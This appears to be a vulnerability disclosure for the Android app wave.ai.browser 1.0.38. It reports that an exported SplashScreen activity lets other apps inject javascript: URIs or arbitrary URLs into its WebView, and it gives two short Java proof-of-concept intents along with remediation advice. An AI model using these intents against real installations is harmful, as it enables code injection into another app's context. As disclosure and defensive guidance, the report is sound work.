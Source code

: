 ## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application version 1.0.38 contains a manifest entry that exports the `wave.ai.browser.ui.splash.SplashScreen` activity. This exported activity permits unauthorized applications to start it with arbitrary intent data & can lead to arbitrary code execution within the context of the `wave.ai.browser` application.

### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```

The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

This activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or extra data passed in the intent. 

Therefore a malicious app could craft an intent to load a website or execute arbitrary JavaScript within that WebView.

### POC:


![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/cc22e955-a306-440c-8b92-00fdfc705717)




#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

CWE-94: Improper Control of Generation of Code ('Code Injection'): The vulnerability can potentially allow attackers to inject arbitrary code.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks.
